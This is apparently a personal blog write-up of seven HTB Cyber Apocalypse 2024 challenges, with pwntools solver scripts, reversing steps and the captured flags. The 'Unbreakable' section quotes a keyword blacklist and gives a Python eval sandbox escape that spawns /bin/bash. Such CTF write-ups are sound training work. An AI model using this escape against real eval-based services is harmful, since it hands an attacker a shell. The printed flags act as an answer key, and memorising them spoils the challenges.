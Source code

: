 ```yaml
---
layout: post
title: "HTB Cyber Apocalypse 2024: Hacker Royale - Misc, Reversing and Hardware"
date: 2024-03-14 00:00:00
description: "HTB Cyber Apocalypse 2024: Hacker Royale - Misc, Reversing and Hardware"
tag:
  - Misc
  - Reversing
---
```


<h2>Table of Contents</h2>
- TOC	- TOC
{:toc}

### **Stop Drop and Roll - Misc**

**Solving Scenario:**\
The service requires input in the format 'STOP, DROP, ROLL.' If the server sends 'GORGE, FIRE, PHREAK,' the correct response should be 'STOP-ROLL-DROP.' Similarly, if only one or two words are sent, such as 'GORGE, FIRE,' the response should be 'STOP-ROLL.' Continue this process until the flag is obtained.

![Stop Drop and Roll](/assets/img/HTB-Cyber-Apocalypse-2024/images/HTBAPOCALYPSE2024_stopdropandroll1.png)

Solver:

```python
from pwn import *

mapping = {
"GORGE": "STOP",
"PHREAK": "DROP",
"FIRE": "ROLL"
}

p = remote("94.237.56.188", 46698)

p.recvuntil(b"In this case, you need to send back STOP-ROLL-DROP!")
p.sendline(b"y")
p.recvuntil(b"Ok then! Let's go!")
p.recvline()

while True:
	question = p.recvline().decode().replace("\n", "").split(", ")

	if len(question) == 1:
		answer = mapping[question[0]]
		p.sendline(answer.encode())
		print(answer)
	elif len(question) == 2:
		answer = mapping[question[0]]+"-"+mapping[question[1]]
		p.sendline(answer.encode())
		print(answer)
	elif len(question) == 3:
		answer = mapping[question[0]]+"-"+mapping[question[1]]+"-"+mapping[question[2]]
		p.sendline(answer.encode())
		print(answer)
	elif len(question) == 4:
		answer = mapping[question[0]]+"-"+mapping[question[1]]+"-"+mapping[question[2]]+"-"+mapping[question[3]]
		p.sendline(answer.encode())
		print(answer)
	elif len(question) == 5:
		answer = mapping[question[0]]+"-"+mapping[question[1]]+"-"+mapping[question[2]]+"-"+mapping[question[3]]+"-"+mapping[question[4]]
		p.sendline(answer.encode())
		print(answer)

	p.recvuntil(b"What do you do? ")

p.close()
```

**Flag**: HTB{1_wiLl_sT0p_dR0p_4nD_r0Ll_mY_w4Y_oUt!}

**================================================================================================**

### **Character - Misc**

**Solving Scenario:**\
Only the index of the desired flag character needs to be input.

![Character](/assets/img/HTB-Cyber-Apocalypse-2024/images/HTBAPOCALYPSE2024_character1.png)

Automating the process is recommended for faster results, especially given the length of the flag.

Solver:

```python
from pwn import *

p = remote("94.237.49.182", 57581)

p.recv()

flag = ""
index = 0
while "}" not in flag:
	p.sendline(str(index).encode())
	part = p.recvline()
	flag += chr(part[-2])
	index += 1
	print(flag)

p.close()
```

**Flag**: HTB{tH15_1s_4_r3aLly_l0nG_fL4g_i_h0p3_f0r_y0Ur_s4k3_tH4t_y0U_sCr1pTEd_tH1s_oR_els3_iT_t0oK_qU1t3_l0ng!!}

**================================================================================================**

### **Unbreakable - Misc**

**Solving Scenario:**\
main.py file:

```python
.....SNIP.....
blacklist = [ ';', '"', 'os', '_', '\\', '/', '`',
              ' ', '-', '!', '[', ']', '*', 'import',
              'eval', 'banner', 'echo', 'cat', '%',
              '&', '>', '<', '+', '1', '2', '3', '4',
              '5', '6', '7', '8', '9', '0', 'b', 's',
              'lower', 'upper', 'system', '}', '{' ]

while True:
  ans = input('Break me, shake me!\n\n$ ').strip()

  if any(char in ans for char in blacklist):
    print(f'\n{banner1}\nNaughty naughty..\n')
  else:
    try:
      eval(ans + '()')
      print('WHAT WAS THAT?!\n')
    except:
      print(f"\n{banner2}\nI'm UNBREAKABLE!\n")
```

For Python sandbox escape, bypass using 'exec(input()).'

Solver:

```python
exec(input())
__import__("os").system("/bin/bash")
```

**Flag**: HTB{3v4l_0r_3vuln??}

**================================================================================================**

### **LootStash - Reversing**

**Solving Scenario:**\
The binary stash can be decompiled with IDA, revealing a variable named 'gear.' This variable points to a data segment containing a collection of sentences. The 'search text' function in IDA can be used to locate the flag, formatted as 'HTB.'

![Stash](/assets/img/HTB-Cyber-Apocalypse-2024/images/HTBAPOCALYPSE2024_stash1.png)
![Stash](/assets/img/HTB-Cyber-Apocalypse-2024/images/HTBAPOCALYPSE2024_stash2.png)

**Flag**: HTB{n33dl3_1n_a_l00t_stack}

**================================================================================================**

### **BoxCutter - Reversing**

**Solving Scenario:**\
Running 'ltrace ./cutter' will result in the flag being displayed.

![BoxCutter](/assets/img/HTB-Cyber-Apocalypse-2024/images/HTBAPOCALYPSE2024_cutter1.png)

**Flag** HTB{tr4c1ng_th3_c4ll5}

**================================================================================================**

### **PackedAway - Reversing**

**Solving Scenario:**\
Check the file using 'strings', and it is identified that the binary is compressed with UPX, preventing decompilation.

![PackedAway](/assets/img/HTB-Cyber-Apocalypse-2024/images/HTBAPOCALYPSE2024_packedaway1.png)

Decompress the binary using [UPX](https://github.com/upx/upx).
Command: upx -d packed

Run strings and grep "HTB" on the decompressed binary to obtain the flag.

![PackedAway](/assets/img/HTB-Cyber-Apocalypse-2024/images/HTBAPOCALYPSE2024_packedaway2.png)

**Flag**: HTB{unp4ck3d_th3_s3cr3t_0f_th3_p455w0rd}

**================================================================================================**

### **Maze - Hardware**

**Solving Scenario:**\
Check the Factory.pdf file located in the folder saveDevice/SavedJobs/Inprogress to retrieve the flag.

![Maze](/assets/img/HTB-Cyber-Apocalypse-2024/images/HTBAPOCALYPSE2024_maze1.png)

**Flag**: HTB{1n7323571n9_57uff_1n51d3_4_p21n732}

Thank you for reading this article, i hope it was helpful :-D\
**Follow me on: [Linkedin], [Medium], [Github], [Youtube], [Instagram]**

[Linkedin]: https://www.linkedin.com/in/muhammad-ichwan-banua/
[Medium]: https://banua.medium.com
[Github]: https://github.com/banuaa
[Youtube]: https://www.youtube.com/@muhammad.iwn-banua
[Instagram]: https://www.instagram.com/muhammad.iwn
